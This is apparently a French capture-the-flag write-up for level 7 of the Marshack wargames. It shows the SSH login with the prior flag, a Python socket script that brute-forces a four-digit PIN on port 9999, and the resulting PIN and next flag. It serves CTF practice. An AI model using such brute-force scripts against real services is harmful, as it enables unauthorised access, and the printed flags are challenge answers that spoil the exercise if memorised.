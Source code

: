 # Write up : Wargames

### Level 7

Consigne :

```
Consignes lvl7 :<br>
Pour obtenir le flag, vous devez vous connecter au port 9999. Il faudra envoyer le flag obtenu lors de l'épreuve précédente suivi de 4 chiffres avec un espace entre le flag et le code pin. <br>
<i>MARS{...} XXXX</i>

Il est très fortement conseillé de scripter ce challenge de brute-force.<br>
Une fois le code trouvé, vous obtiendrez le flag.<br>

Se connecter à l'adresse suivante : <br />
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<FONT COLOR="#ff0000">ssh -p 6666 challenge7@game1.marshack.fr</FONT> <br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;password : [flag obtenu dans l'épreuve précédente]
```


Connexion 

```bash
ssh -p 6666 challenge7@game1.marshack.fr
password: MARS{bpLMB4IxDzGAJ9kXpVyPVXlxp4u999Gu}
```

Même chose que le level 3, avec une difficulté supplémentaire : un code secret a 4 chiffres doit être transmis en plus du mot de passe du level 6.

Scripter ce challenge de bruteforce en python, bash ou n'importe quel langage compilable sur le serveur.

Script python :  (penser à modifier le HOST,  pendant les tests HOST=localhost)

```bash
challenge7@be9f0e178887:~$ mkdir /tmp/mes_scripts
challenge7@be9f0e178887:~$ cd /tmp/mes_scripts
challenge7@be9f0e178887:~$ vi script.py
```

script.py :

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import socket
import time

password = "MARS{bpLMB4IxDzGAJ9kXpVyPVXlxp4u999Gu}"

HOST = 'localhost'
PORT = 9999
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

sock.connect((HOST,PORT))

for pin in range(0,10000):
   Injection=password + " " + (str(pin).zfill(4))+ "\n"
   sock.send(Injection)
   recept = sock.recv(9999)
   # affichage "Raté, ce n'est pas le mot de passe précéd" en cas de mauvais password et code pin
   if "Rat" in recept:
      continue
   else:
      print recept
      print "le code pin est : " + str(pin)
      break
sock.close()

```

Modification des permissions sur script.py

```bash
challenge7@be9f0e178887:/tmp/mes_scripts$ chmod 750 /tmp/mes_scripts/script.py
challenge7@be9f0e178887:/tmp/mes_scripts$ cd /tmp/mes_scripts
challenge7@be9f0e178887:/tmp/mes_scripts$ ./script.py
```

Solution :

```
Félicitations, le password de l'utilisateur suivant est : MARS{Cokc99wSsqhtmh7ZprKiE4Kym19ZuxZv}
le code pin est : 6942

```



Résultat : MARS{Cokc99wSsqhtmh7ZprKiE4Kym19ZuxZv}